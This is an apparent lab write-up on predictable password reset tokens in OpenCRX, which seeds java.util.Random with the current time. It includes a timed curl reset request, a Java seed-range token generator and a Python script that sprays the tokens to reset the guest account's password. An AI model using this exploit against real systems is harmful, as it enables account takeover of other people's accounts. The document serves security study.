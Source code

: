 ## When Random is Not
To understand what's going on inside the code, we will be using java shell.
Moreover, we will be trying to understand the difference between 2 primary random number generators in the standard java libraries that are:
1. java.util.random
2. java.security.SecureRandom

The official documentation for java.util.random goes as follows:

```Text
An instance of this class is used to generate a stream of pseudorandom numbers.
If two instances of 'Random' are created with the same seed, and the same sequence of method calls is made for each, they will generate and return identical sequences of numbers.
Instances of `java.util.Random` are not cryptographically secure.
```

We can observe this in our own java shell environment.
We import the class, instantiate 2 instances, of random objects, with the sane seed value, and compare them:

![](../../03.%20Screenshots/t6-ss7.png)

We see that 2 instances generated with the same seed value, have same random value.
The java.security.SecureRandom class states the following:

```text
This class provides a cryptographically strong random number generator.
SecureRandom must produce non-deterministic output.
Therefore any seed material passed to a SecureRandom object must be unpredictable, and all SecureRandom output sequences must be cryptographically strong
```

Trying the same with the java.security.SecureRandom class, we get a different result:

![](../../03.%20Screenshots/t6-ss8.png)

Even though they were instantiated with the same seed value, the two SecureRandom objects returned different results from the nextInt method.

Going back and looking at the getRandomBase62 method:

![](../../03.%20Screenshots/t6-ss6.png)

OpenCRX uses the regular Random class to generate password reset tokens.
it is seeded with the results of System.currentTimeMillis().
This method returns the difference, measured in milliseconds, between the current time and midnight, January 1, 1970 UTC.

If we can predict when a token is requested, we should be able to generate a matching token by manipulating the seed value when creating our own Random object.

## Determining Account Existence
A default installation of OpenCRX has three accounts with the following username and password pairs:

1.  guest / guest
2.  admin-Standard / admin-Standard
3.  admin-Root / admin-Root

The existence of an account can be determined easily through the password reset page. If we provide a username that does not exist, we get the following response:

![](../../03.%20Screenshots/t6-ss9.png)

However, if we provide a username that does exist, we get the following response:

![](../../03.%20Screenshots/t6-ss10.png)

## Timing the Request
In order to generate the correct password reset token, we need to guess the seed value, which is the exact millisecond that the token was generated.

We can get the milliseconds using the date command in Kali with the "%s" flag.
We'll also use the "%3N" flag to include three digits of nanoseconds. This format will match the output of the Java method in milliseconds.
We can get the range of potential seed values using the date command before and after we submit the reset request with curl

The command is as follows:

```bash
date +%s%3N && curl -s -i -X 'POST' --data-binary 'id=guest' 'http://opencrx:8080/opencrx-core-CRX/RequestPasswordReset.jsp' && date +%s%3N
```

Running the command we get 2 numbers indicating a range of numbers that can be used by us to find the seed.

This range varies based on network latency and server processing time. However, the seed is determined early in the password reset process, so it is likely to be closer to the start time rather than the end time.

## Generating Token List
Now that we have the range of potential random seeds, we need to create our own token generator.
We can create a file with our own Java class to generate the tokens to exploit the predictable random generation.

We will start by by building out the basic outline of our class.
We will need 
- A class definition
- A main method so that we can run the class from the command line
- A method that generates the tokens

We can copy the code from OpenCRX, and use it in our own program.
We will need 
- An int variable for the _length_ of the token
- long variables for the start and stop seed values
- A String for the token values.

We will use a for loop to iterate between the start and stop values, calling the getRandomBase62 method and passing in the seed value as it iterates.

We will also copy the contents of the getRandomBase62 method from org.opencrx.kernel.utils.Util.java and modify it to use the seed value passed in to the method.
The code will look like so:

```java
import java.util.Random;
  
public class OpenCRXToken {
	public static void main(String args[]) {
		int length = 40;
	    	long start = Long.parseLong("1582038122371");
		long stop = Long.parseLong("1582038122769");
		String token = "";
	  
		for (long l = start; l < stop; l++) {
		token = getRandomBase62(length, l);
 		System.out.println(token);
		}
	}

	public static String getRandomBase62(int length, long seed) {
		String alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
		//Random random = new Random(System.currentTimeMillis());
		Random random = new Random(seed);
		String s = "";
    		for (int i = 0; i < length; i++){
     			s = s + "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(random.nextInt(62)); 
		}
		return s;
  	}
}
```

Once we compile the code, and run it, we'll get our token list:

![](../../03.%20Screenshots/t6-ss11.png)

## Automating Resets
When we examined the source code for UserHomes.class, we found the following format for the reset link:

```java
String resetConfirmUrl = webAccessUrl + (webAccessUrl.endsWith("/") ? "" : "/") + "PasswordResetConfirm.jsp?t=" + resetToken + "&p=" + providerName + "&s=" + segmentName + "&id=" + principalName;
```

The 4 arguments we need are resetToken, providerName, segmentName and id.
We already have the reset token, and the id parameter is the username of the user we're changing the password for.
To understand what segmentName and providerName are, we analyze the source code for RequestPasswordReset.jsp file:

![](../../03.%20Screenshots/t6-ss12.png)

We see an example used for the placeholder value.
Examining the same page in our browser:

![](../../03.%20Screenshots/t6-ss13.png)

The value "CRX" has been replaced with "ProviderName" and "Standard" has been replaced with "SegmentName".
Now that we have all the values we need to examine the source code of PasswordResetConfirm.jsp to determine what data we need to send to the server for the reset:

![](../../03.%20Screenshots/t6-ss14.png)

In addition to the token, providerName, segmentName, and id parameters, we need to provide a new password value in the password1 and password2 fields as well.
We will use the following script to exploit this vulnerability:

```python
import requests
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-u','--user', help='Username to target', required=True)
parser.add_argument('-p','--password', help='Password value to set', required=True)
args = parser.parse_args()

target = "http://opencrx:8080/opencrx-core-CRX/PasswordResetConfirm.jsp"

print("Starting token spray. Standby.")
with open("tokens.txt", "r") as f:
    for word in f:
        # t=resetToken&p=CRX&s=Standard&id=guest&password1=password&password2=password
        payload = {'t':word.rstrip(), 'p':'CRX','s':'Standard','id':args.user,'password1':args.password,'password2':args.password}

        r = requests.post(url=target, data=payload)
        res = r.text

        if "Unable to reset password" not in res:
            print("Successful reset with token: %s" % word)
            break
```

Running the script:

![](../../03.%20Screenshots/t6-ss15.png)

The vulnerability is exploited, and we can now login with the password, "password" in the guest username account:

![](../../03.%20Screenshots/t6-ss16.png)